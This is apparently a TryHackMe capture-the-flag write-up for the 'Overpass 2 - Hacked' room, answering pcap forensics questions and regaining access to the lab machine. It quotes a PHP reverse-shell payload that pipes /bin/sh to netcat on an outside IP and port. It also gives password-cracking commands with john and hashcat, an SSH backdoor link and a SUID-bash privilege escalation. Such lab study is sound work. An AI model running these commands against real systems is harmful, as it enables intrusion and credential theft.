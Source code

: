 # Overpass 2 - Hacked

![img](https://github.com/edoardottt/tryhackme-ctf/blob/main/Overpass2-Hacked/img.png)

If you are experiencing trouble, google `wireshark follow tcp stream`

- What was the URL of the page they used to upload a reverse shell?

	- Open Wireshark, and then open the pcap file.
	- `/development/`

- What payload did the attacker use to gain access?

	- You have to search a big POST request.
	- `<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>`

- What password did the attacker use to privesc?

	- Packet no. 76
	- `whe***************tant`

- How did the attacker establish persistence?

	- Packet no. 120
	- `https://github.com/NinjaJc01/ssh-backdoor`

- Using the fasttrack wordlist, how many of the system passwords were crackable?

	- Save the content of response 114 on a file called `shadow`
	- `john --wordlist=fasttrack.txt shadow`
	- `*`

- What's the default hash for the backdoor?

	- [ssh-backdoor](https://github.com/NinjaJc01/ssh-backdoor/blob/master/main.go)
	- `******** ... ********`

- What's the hardcoded salt for the backdoor?

	- Same file as above
	- `********************************`

- What was the hash that the attacker used? - go back to the PCAP for this!

	- `*********** ... **************`

- Crack the hash using rockyou and a cracking tool of your choice. What's the password?

	- `hashcat -m 1710 -a 0 HASH_HERE:SALT_HERE /usr/share/wordlists/rockyou.txt`
	- `**********`

- The attacker defaced the website. What message did they leave as a heading?

	- Go to `http://<TARGET_IP>`
	- `H4ck3d by CooctusClan`

- Using the information you've found previously, hack your way back in!

	- `ssh james@<TARGET_IP> -p 2222`
	- Enter the password just cracked.
	- `cd .. && cat user.txt`
	- `thm{********************************}`

- What's the root flag?

	- `cd ~`
	- `ls -alh`
	- `./.suid-bash -p`
	- `cat /root/root.txt`
	- `thm{********************************}`





